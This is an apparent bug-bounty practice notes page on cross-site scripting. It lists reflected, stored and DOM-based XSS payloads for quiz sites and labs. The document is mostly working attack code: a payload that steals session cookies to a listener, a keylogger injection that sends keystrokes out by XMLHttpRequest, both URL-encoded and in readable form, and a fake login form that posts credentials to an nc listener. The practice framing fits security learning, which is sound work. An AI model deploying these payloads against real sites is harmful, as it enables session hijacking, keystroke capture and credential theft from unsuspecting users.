 # basic payload

# try
https://xss-quiz.int21h.jp/


### reflected:
```
<h1>xss try</h1>
<script>alert(1)</script>
<script>alert(document.cookie)</script>
'-alert(1)-'
"><script>prompt(1)</script>

```
ifty' ; alert() ;'test

![image](https://github.com/user-attachments/assets/8cda4789-521e-4bec-a2dd-5cb9daaf2595)

```
"onmouseover="alert(1)
```

![image](https://github.com/user-attachments/assets/2a104e6f-2780-41ec-89aa-b55b49158ad7)
```
javascript:alert()
```
![image](https://github.com/user-attachments/assets/c241170a-c0c8-43c1-b6a8-077e09b5a098)

### stored :
```
<img src="does-not-exist" onerror="alert(document.cookie)">

“>img src=x onerror=alert(1)
````
### DOM :
1) document.write :
```
"><svg onload=alert(1)>
" onload = "alert(document.cookies)
```
![image](https://github.com/user-attachments/assets/5b231551-8a4f-4300-a7e5-25cb89105e48)


2) innerHTML :
```
<img src="does-not-exist" onerror="alert(document.cookie)">
```

![image](https://github.com/user-attachments/assets/50dbf402-56d7-447d-a27c-d401301192f1)


3) jQuery anchor href :

after the path

```javascript:alert(document.cookie)```

and click backlink


   ![image](https://github.com/user-attachments/assets/c9b00d4c-ea24-4c01-aadb-3471141427c4)


4) jQuery hash

```
<iframe src="https://YOUR-LAB-ID.web-security-academy.net/#" onload="this.src+='<img src=x onerror=print()>'"></iframe>
```
 
![image](https://github.com/user-attachments/assets/5ecb8438-f297-448b-a102-bdf5d2a60bde)

# XSS attack 1: Hijacking the user’s session
## Evil server 
```bash
node evil-server.js
```
download the zip file and use the command on terminal

[evil-server.js](https://github.com/fahimalshihab/Bug-Bounty/blob/main/XSS/Practice/evil-server-js.zip)

![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/0b07c731-cb75-4082-9e43-660816c685ea)

### Or 
can make local listener
```
nc -l localhost 5000
```
![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/3fb1b3e8-bae1-4e26-a49f-98d83509b151)


## Document.cookie
  ``` js
  <img src="does-not-exist" onerror="alert(document.cookie)">
  ```
  ``` %3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22alert(document.cookie)%22%3E```


## steal the session cookie
```js
    <img src="does-not-exist" onerror="var img = document.createElement(\'img\'); img.src = \'http://localhost:3001/cookie?data=\' + document.cookie; document.querySelector(\'body\').appendChild(img);">

```
``` %3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fcookie%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E```

* Here's the JavaScript code from the last example in a readable form:
```js
var img = document.createElement('img');
img.src = 'http://localhost:3001/cookie?data=' + document.cookie;
document.querySelector('body').appendChild(img);
```


## key-logger:
```js
<img src="does-not-exist" onerror="var timeout; var buffer = \'\'; document.querySelector(\'body\').addEventListener(\'keypress\', function(event) { if (event.which !== 0) { clearTimeout(timeout); buffer += String.fromCharCode(event.which); timeout = setTimeout(function() { var xhr = new XMLHttpRequest(); var uri = \'http://localhost:3001/keys?data=\' + encodeURIComponent(buffer); xhr.open(\'GET\', uri); xhr.send(); buffer = \'\'; }, 400); } });">
```

```
%3Cimg%20src%3D%22does-not-exist%22%20onerror%3D%22var%20timeout%3B%20var%20buffer%20%3D%20%27%27%3B%20document.querySelector(%27body%27).addEventListener(%27keypress%27%2C%20function(event)%20%7B%20if%20(event.which%20!%3D%3D%200)%20%7B%20clearTimeout(timeout)%3B%20buffer%20%2B%3D%20String.fromCharCode(event.which)%3B%20timeout%20%3D%20setTimeout(function()%20%7B%20var%20xhr%20%3D%20new%20XMLHttpRequest()%3B%20var%20uri%20%3D%20%27http%3A%2F%2Flocalhost%3A3001%2Fkeys%3Fdata%3D%27%20%2B%20encodeURIComponent(buffer)%3B%20xhr.open(%27GET%27%2C%20uri)%3B%20xhr.send()%3B%20buffer%20%3D%20%27%27%3B%20%7D%2C%20400)%3B%20%7D%20%7D)%3B%22%3E
```

* Here's the JavaScript code from the last example in a readable form:
```js
var timeout;
var buffer = '';
document.querySelector('body').addEventListener('keypress', function(event) {
	if (event.which !== 0) {
		clearTimeout(timeout);
		buffer += String.fromCharCode(event.which);
		timeout = setTimeout(function() {
			var xhr = new XMLHttpRequest();
			var uri = 'http://localhost:3001/keys?data=' + encodeURIComponent(buffer);
			xhr.open('GET', uri);
			xhr.send();
			buffer = '';
		}, 400);
	}
});
```

# XSS attack 2: Phishing to steal user credentials
Lets create a local listener server 
```
nc -l localhost 5000
```
![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/cf256d77-3c2a-4522-a1de-c2d37eb464c8)


```
<h3>Please login to proceed</h3> <form action=http://localhost:5000>Username:<br><input type="username" name="username"></br>Password:<br><input type="password" name="password"></br><br><input type="submit" value="Logon"></br>
```
![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/d494c8e2-cbd3-4ee7-832f-bf696f55b105)

yeahooo here we go 

![image](https://github.com/fahimalshihab/Bug-Bounty/assets/97816146/08c8d04d-9c05-403e-bb9a-b77724e1eae1)


